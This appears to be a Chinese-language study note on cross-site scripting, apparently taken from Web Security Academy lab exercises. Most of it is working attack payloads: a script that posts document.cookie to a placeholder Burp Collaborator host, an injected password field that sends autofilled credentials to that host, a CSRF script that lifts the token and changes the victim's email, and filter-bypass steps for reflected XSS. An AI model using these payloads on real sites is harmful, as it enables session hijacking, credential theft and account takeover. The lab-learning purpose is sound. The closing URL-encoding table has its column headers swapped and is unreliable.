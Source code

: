 XSS通常用alert()来检测

用这两种来利用：
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>

httponly可以隐藏cookie（Many applications hide their cookies from JavaScript using the `HttpOnly` flag.）

burpsuite的Collaborator可以生成xss的存储地



## 反射型

### 盗取cookie：

```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

### （在评论中）创造输入框，获取自动填充的内容：

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST', 
mode: 'no-cors', 
body:username.value+':'+this.value
});">
```

### CSRF：自动改邮箱（条件：邮箱更改不需要验证）

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```



```
<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() {     var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];     var changeReq = new XMLHttpRequest();     changeReq.open('post', '/my-account/change-email', true);     changeReq.send('csrf='+token+'&email=test@test.com') }; </script>
```



```
/?search=<img src=1 onerror=print()>：显示标签被拦截
/?search=<§§>：爆破标签，结果body可以用
/?search=<body%20§§=1>：爆破属性。%20是空格。属性="xxx"，用1为简化
/?search='<body onresize="print(1)"></body>：在判断允许的标签是body，属性是onresize后，执行反射型XSS。'是闭合结果显示时候的引号。onresize：浏览器框图大小改变时触发
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>：发短信诱导改变iframe大小，导致其向靶场发送请求，最终print
```





| 输入 | URL编码后 |
| ---- | --------- |
| %3C  | <         |
| %3D  | =         |
| %3E  | >         |
| %28  | (         |
| %29  | )         |
| %20  | 空格      |
| %27  | '         |
| %22  | "         |

